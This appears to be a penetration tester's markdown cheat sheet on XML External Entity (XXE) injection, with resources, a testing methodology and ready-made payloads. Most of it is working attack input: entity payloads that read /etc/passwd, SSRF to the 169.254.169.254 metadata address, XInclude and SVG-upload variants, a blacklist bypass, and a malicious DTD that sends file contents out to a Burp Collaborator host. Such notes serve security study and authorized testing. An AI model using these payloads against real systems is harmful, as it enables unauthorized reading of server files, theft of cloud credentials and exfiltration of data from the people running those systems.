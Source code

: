 # Resources
- [XXE Playlist - Seven Seas Security](https://www.youtube.com/playlist?list=PL1GDzLoRwyVC_ZvAIbyUD2tv3OqCh8XZB)
- Michael Sommer videos
# Extensions
- Burp Extension - Content Type Converter
# Methodology
- Declare a local entity and test the server response
- Reference the entity and check the server response
- Check and try to confirm that the xml entities are being parsed. Input an non-existent entity and check for a parsing error
- Change the local entity to an external entity
- Check if the vulnerability can be exploited in-bound or out-of-bound
- Is there an entity blacklist? Try parameter entities
# Identify injection point
Look for functionality where a SVG could be uploaded
Look for API requests using XML
If the API expects another format, see if it accepts XML
Even if the application does not accept XML explicitly, try to declare an encoded XML entity and see the server response,
it might reveal that the application is parsing XML
Encoding might be required
```http
%26entity; <= URL encoded
```
# XML External Entities Injection
Payload structure
```html
<!DOCTYPE anything [<!ENTITY name "url"> ]>
```
- Retrieve file from the system
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
- SSRF to internal site
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
- XInclude Attack: Whenever we can't define or modify a DOCTYPE element, use XInclude.
This technology allows you to include the contents of a XML document into another XML document.
```html
<exa xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></exa>
```
- XXE via SVG file upload
```html
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
# Blind XXE
- Out-of-band interaction
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://burp-collaborator/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
- Bypass Entity Blacklist - Blind XXE with out-of-band interaction via XML parameter entities
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://burp-collaborator"> %xxe; ]>
```
- Using out-of-band interaction to exfiltrate data
Setup a malicious DTD (.dtd) file declaring xml parameter entities and stack the entities to retrieve the data and then send it out
Payload - Malicious DTD
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'http://burp-collaborator?x=%file;'>">
```
Payload - HTTP Request
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "url-to-dtd"> %xxe;
%stack;
%exfil;]>
```
- Exploiting XXE via Error Messages:
If the previous method fails, modidy it to try to trigger an error by referencing an non-existent file
Payload - Malicious DTD
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % stack "<!ENTITY &#x25; exfil SYSTEM 'file:///nonexistentfile/%file;'>">
```
Payload - HTTP Request
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "url-to-dtd"> %xxe;
%stack;
%exfil;]>
```
